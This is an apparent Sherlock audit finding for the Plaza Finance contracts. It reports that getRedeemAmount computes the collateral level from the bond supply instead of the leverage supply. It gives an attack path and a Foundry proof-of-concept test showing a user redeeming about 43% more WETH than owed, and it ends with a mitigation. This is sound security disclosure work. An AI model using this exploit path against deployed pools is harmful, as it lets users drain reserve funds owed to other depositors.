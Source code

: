 Glamorous Steel Wren

Medium

# Incorrect collateral level calculations in `getRedeemAmount` lead to innacuraccies and precision loss when redeeming

### Summary

When a user calls `Pool::redeem` function, `Pool::getRedeemAmount` function is called, to calculate how much of the reserve token the user should get in return of their derivative tokens. So when `getRedeemAmount` function is called, if `tokenType` is equal to `TokenType.LEVERAGE`, when the function calculates `collateralLevel` it uses `bondSupply` instead of `levSupply`, which leads to innacuraccies and precision loss in further calculations in the same function, such as when calculating `redeemRate` and returned redeem amount.

Consider these scenarios:

1. When `collateralLevel` should be above threshold, but it gets set to below, due to a scenario where `bondSupply` is much bigger than `levSupply` (which will happen when users call `create` or `redeem` functions with big amounts of tokens), then `redeemRate` becomes lower than it should be, due to multiplier being used.
2. When `collateralLevel` should be below threshold, but it gets set to above, due to a scenario where `bondSupply` is much smaller than `levSupply` (which will happen when users call `create` or `redeem` functions with big amounts of tokens), resulting in bigger than expected `redeemRate`.

Take a look at the PoC section to see an example scenario of this issue. 

### Root Cause

 Incorrect variable is used in collateral level calculation in `Pool::getRedeemAmount` function. In line 502, `levSupply` should be used instead of `bondSupply`, because the token type is `leverage`, not `bond`. 

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L502




**Internal Pre-conditions:**

At the time of redeem, `bondSupply` and `levSupply` should be different, which will happen when users call `create` or `redeem` functions with big amounts of tokens

### Attack Path

1. New pool gets created with even values (doesn't have to be even) of `bondAmount` and `leverageAmount`
2. `User A` calls `Pool::create`, creating some `leverage` tokens
3. `User B` calls `Pool::create` with a big amount of `reserve` tokens, creating a big number of `bond` tokens
4. `User A` calls `Pool::redeem`, burning their `leverage` tokens and redeeming a bigger or smaller (depending on scenario) than expected `reserve` token amount

### Impact

Depending on circumstances, this issue can have two different results:

1. It will lead to users getting more reserve tokens when redeeming, than they should get.
2. It will lead to users getting less reserve tokens when redeeming, than they should get.

Both of these are obviously not intended and should be fixed as soon as possible.

### PoC

1. Create a new file in the `test` folder and name it `TestPOC.t.sol`
2. Paste the code provided below into the file:

<details>
<summary>Code</summary>

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

import {Pool} from "../src/Pool.sol";
import {Token} from "./mocks/Token.sol";
import {Utils} from "../src/lib/Utils.sol";
import {Auction} from "../src/Auction.sol";
import {MockPool} from "./mocks/MockPool.sol";
import {BondToken} from "../src/BondToken.sol";
import {PoolFactory} from "../src/PoolFactory.sol";
import {Distributor} from "../src/Distributor.sol";
import {OracleFeeds} from "../src/OracleFeeds.sol";
import {LeverageToken} from "../src/LeverageToken.sol";
import {Deployer} from "../src/utils/Deployer.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";
import {MockPriceFeed} from "./mocks/MockPriceFeed.sol";

contract TestPOC is Test {
    Auction auction;
    Token usdc;
    Token weth;
    address house = address(0x2);
    address minter = address(0x3);
    address governance = address(0x4);
    address securityCouncil = address(0x5);
    address user = makeAddr("user");
    address pool;
    uint256 totalBuyCouponAmount = 7500 * 10 ** 6;
    address private oracleFeedsContract;
    MockPriceFeed private mockPriceFeed;
    address public constant ethPriceFeed = address(0x71041dddad3595F9CEd3DcCFBe3D1F4b0a16Bb70);
    uint256 private constant CHAINLINK_DECIMAL_PRECISION = 10 ** 8;
    uint8 private constant CHAINLINK_DECIMAL = 8;

    function setUp() public {
        usdc = new Token("USDC", "USDC", false);
        weth = new Token("WETH", "WETH", false);

        pool = createPool(address(weth), address(usdc));
        useMockPool(pool);

        vm.startPrank(governance);

        OracleFeeds(oracleFeedsContract).setPriceFeed(address(weth), address(0), ethPriceFeed, 999 days);

        // Deploy the mock price feed
        mockPriceFeed = new MockPriceFeed();

        // Use vm.etch to deploy the mock contract at the specific address
        bytes memory bytecode = address(mockPriceFeed).code;
        vm.etch(ethPriceFeed, bytecode);

        // Set oracle price
        mockPriceFeed = MockPriceFeed(ethPriceFeed);
        mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

        vm.stopPrank();
    }

    function createPool(address reserve, address coupon) public returns (address) {
        vm.startPrank(governance);
        address deployer = address(new Deployer());
        oracleFeedsContract = address(new OracleFeeds());

        address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
        address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
        address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
        address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

        PoolFactory poolFactory = PoolFactory(
            Utils.deploy(
                address(new PoolFactory()),
                abi.encodeCall(
                    PoolFactory.initialize,
                    (governance, deployer, oracleFeedsContract, poolBeacon, bondBeacon, levBeacon, distributorBeacon)
                )
            )
        );

        PoolFactory.PoolParams memory params;
        params.fee = 0;
        params.reserveToken = reserve;
        params.sharesPerToken = 2500000; // 2.5e6
        params.distributionPeriod = 90 days;
        params.couponToken = coupon;

        poolFactory.grantRole(poolFactory.GOV_ROLE(), governance);
        poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);
        poolFactory.grantRole(poolFactory.SECURITY_COUNCIL_ROLE(), securityCouncil);

        Token(reserve).mint(governance, 1000 ether);
        Token(reserve).approve(address(poolFactory), 1000 ether);

        return poolFactory.createPool(
            params, 100 ether, 2000 ether, 2000 ether, "Bond ETH", "bondETH", "Leverage ETH", "levETH", false
        );
        //           ^           ^           ^         <--------------- here can change values to set up pool
    }

    function useMockPool(address poolAddress) public {
        // Deploy the mock pool
        MockPool mockPool = new MockPool();

        // Use vm.etch to deploy the mock contract at the specific address
        vm.etch(poolAddress, address(mockPool).code);
    }

    function testDifferentSupplyOfBondAndLevTokens() public {
        // ******************** The issue that I'm trying to showcase in this PoC can be seen in many different scenarios. You can test other scenarios yourself and see, all code is in this file, just comment/uncomment what's required ******************** //
        // ******************** Or if you want to change `reserveAmount`, `bondAmount` or `leverageAmount` at the time of pool creation, you can do that above in `createPool` function (I marked it with a comment) ******************** //

        uint256 regularUserAmount = 10 ether; // amount of weth that users deposit to the pool, to create derivative tokens
        console.log("user weth balance before create:", regularUserAmount);
        uint256 numberOfRegularUsers = 1; // <----------- you can change this value to test out different scenarios
        address[1] memory users; // <----------- you can change the size of the array to test out different scenarios
        Pool.TokenType tokenTypeBond = Pool.TokenType.BOND;
        Pool.TokenType tokenTypeLev = Pool.TokenType.LEVERAGE;
        BondToken bondToken = Pool(pool).bondToken();
        LeverageToken levToken = Pool(pool).lToken();
        uint256 whaleUserAmount = 200 ether; // amount of weth that whale user deposits to the pool, to create derivative tokens
        address whaleUser = makeAddr("whale user");

        // generating addresses for users

        for (uint256 i = 0; i < numberOfRegularUsers; i++) {
            users[i] = address(uint160(uint256(keccak256(abi.encodePacked(i + 999)))));
        }

        // users create bond tokens

        // for (uint256 i = 0; i < numberOfRegularUsers; i++) {
        //     vm.startPrank(users[i]);
        //     weth.mint(users[i], regularUserAmount);
        //     weth.approve(pool, regularUserAmount);
        //     Pool(pool).create(tokenTypeBond, regularUserAmount, 0);
        //     vm.stopPrank();
        //     console.log("user bond balance after create:", bondToken.balanceOf(users[i]));
        // }

        // users create lev tokens

        for (uint256 i = 0; i < numberOfRegularUsers; i++) {
            vm.startPrank(users[i]);
            weth.mint(users[i], regularUserAmount);
            weth.approve(pool, regularUserAmount);
            Pool(pool).create(tokenTypeLev, regularUserAmount, 0);
            vm.stopPrank();
            console.log("user lev balance after create:", levToken.balanceOf(users[i])); // odd balance
        }

        // whale user creates bond tokens

        vm.startPrank(whaleUser);
        weth.mint(whaleUser, whaleUserAmount);
        weth.approve(pool, whaleUserAmount);
        Pool(pool).create(tokenTypeBond, whaleUserAmount, 0);
        vm.stopPrank();

        // whale user creates lev tokens

        // vm.startPrank(whaleUser);
        // weth.mint(whaleUser, whaleUserAmount);
        // weth.approve(pool, whaleUserAmount);
        // Pool(pool).create(tokenTypeLev, whaleUserAmount, 0);
        // vm.stopPrank();

        // users redeem bond tokens

        // for (uint256 i = 0; i < numberOfRegularUsers; i++) {
        //     vm.startPrank(users[i]);
        //     Pool(pool).redeem(tokenTypeBond, bondToken.balanceOf(users[i]), 0);
        //     vm.stopPrank();
        //     console.log("user weth balance after redeem:", weth.balanceOf(users[i]));
        // }

        // users redeem lev tokens

        for (uint256 i = 0; i < numberOfRegularUsers; i++) {
            vm.startPrank(users[i]);
            Pool(pool).redeem(tokenTypeLev, levToken.balanceOf(users[i]), 0);
            vm.stopPrank();
            console.log("user weth balance after redeem:", weth.balanceOf(users[i])); // in this scenario, last user gets ~40% more WETH than they should
        }

        // whale user redeems bond tokens

        // vm.startPrank(whaleUser);
        // Pool(pool).redeem(tokenTypeBond, bondToken.balanceOf(whaleUser), 0);
        // vm.stopPrank();
        // console.log("whale user weth balance after redeem:", weth.balanceOf(whaleUser));

        // whale user redeems lev tokens

        // vm.startPrank(whaleUser);
        // Pool(pool).redeem(tokenTypeLev, levToken.balanceOf(whaleUser), 0);
        // vm.stopPrank();
        // console.log("whale user weth balance after redeem:", weth.balanceOf(whaleUser));
    }
}
```
</details>

3. Run the test using this command: `forge test --mt testDifferentSupplyOfBondAndLevTokens -vv`
4. Take a look at the logs shown in the terminal. They should look like this:

`Logs:`   
  `user weth balance before create: 10000000000000000000`   
  `user lev balance after create: 600000000000000000000`   
  `user weth balance after redeem: 14307692200000000000`   

5. As you can see in this example scenario, the user got more than 40% extra WETH, than they should have gotten
6. To test other scenarios, read my comments at the top of the test function.

### Mitigation

When user calls `Pool::create` or `Pool::redeem`, make sure to use appropriate values for calculations, depending on the derivative token type inputted by the user. For `BOND` token - use values that are associated with this token, for `LEVERAGE` token - use values that are associated with this token. Do not mix them up.